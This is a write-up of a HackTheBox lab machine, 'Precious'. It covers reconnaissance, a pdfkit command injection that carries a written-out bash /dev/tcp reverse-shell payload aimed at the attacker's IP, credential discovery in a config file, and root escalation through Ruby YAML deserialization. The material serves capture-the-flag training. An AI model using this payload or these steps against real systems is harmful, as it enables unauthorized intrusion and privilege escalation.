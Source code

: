 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226735722-c099909e-f7c7-4d18-a68b-b9c45b85dc47.png)


- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226736215-366962c6-ee2b-488f-ad4f-17bad695c042.png)


- After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file. ` sudo nano /etc/hosts`

![image](https://user-images.githubusercontent.com/61332852/226736557-b8b2f55a-1e43-489f-b733-8f6becb15b64.png)


- The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running `gobuster` to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.  

![image](https://user-images.githubusercontent.com/61332852/226736779-32a51f2f-76c9-4960-99e5-877228e9d73f.png)


- After messing with the input box, I opened `BurpSuite` to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a `Cannot load remote URL` message. Thus, I began to start my own python webserver on my localhost. `python3 -m http.server 80` 

![image](https://user-images.githubusercontent.com/61332852/226736963-a16717a2-5bdc-4716-a69f-361849b8c829.png)


- After inputting the local python server that I had started it returned the contents within the file directory of my local http server. 

![image](https://user-images.githubusercontent.com/61332852/226737299-dd46b238-ef1d-4cd2-a25f-ba8cbc6e237b.png)


- I used `exiftool` to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the software that was converting the URL to PDF. 

![image](https://user-images.githubusercontent.com/61332852/226737327-55719231-e332-4057-8b30-2438a105f5f8.png)


- I used the `searchsploit` command again here to see if there was anything it would find for `pdfkit v0.8.6` which was the software that running. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the software running. I then found that it was vulnerable to `command injection` a type of injection vulnerability.    

![image](https://user-images.githubusercontent.com/61332852/226737890-c371feca-31f6-4dda-9365-8cabb7999d1d.png)

![image](https://user-images.githubusercontent.com/61332852/226737908-9bbada7a-a4df-4f9e-bebc-a1d53eb8fe54.png)


- Reading more of the vulnerability and what we can start to do to exploit it this is what I found. `An application could be vulnerable if it tries to render a URL that contains query string parameters with user input`. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  

![image](https://user-images.githubusercontent.com/61332852/226738055-735cb83d-6477-47b7-a278-13d4438e5304.png)


- After grabbing a reverse shell command, I inserted it as a string within the URL ``http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}``. Thus, getting me in as the user `Ruby` within the webserver.  

![image](https://user-images.githubusercontent.com/61332852/226738285-5386a5c2-383d-4aa4-be2f-d65efa8fff0f.png)


- Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything at first. I then used `ls -la`. I found something I don’t see usually which was a directory called `.bundle` which I then found a config file consisting of another user’s (`henry`) password.  

![image](https://user-images.githubusercontent.com/61332852/226738514-917ee43c-6457-4b3d-8c60-f577cb0495fd.png)


- I began to login as the user `henry` with the given password. Successfully getting us in. I first checked Henrys home directory to check for any flags shown there. Then giving us our first flag.  

![image](https://user-images.githubusercontent.com/61332852/226738766-11e85f49-fef7-4ebb-8e15-eb332391227a.png)


- To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

![image](https://user-images.githubusercontent.com/61332852/226738844-bf533d21-12e3-4c40-898b-b632a743f524.png)


- After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to a `Yaml Deserialization Attack` allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute. After looking for the Ruby Yaml Exploit code we found the code to run from a GitHub Host. We then created a file within our home folder `touch dependency.yml` to paste the following code into. 

![image](https://user-images.githubusercontent.com/61332852/226739595-742932f9-aa3f-4904-a482-8e5c341fbb56.png)


- After running `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can now run `/bin/bash -p` to see if we spawn as the root user. Which is successful.

![image](https://user-images.githubusercontent.com/61332852/226739923-93992744-9357-4dfd-b1ab-93a74e4fc6d9.png)


- After going into roots home folder we find the root flag for the machine.

![image](https://user-images.githubusercontent.com/61332852/226740059-8b9a243c-1bb2-42d3-a5f3-d2e2d21b4b1b.png)
 
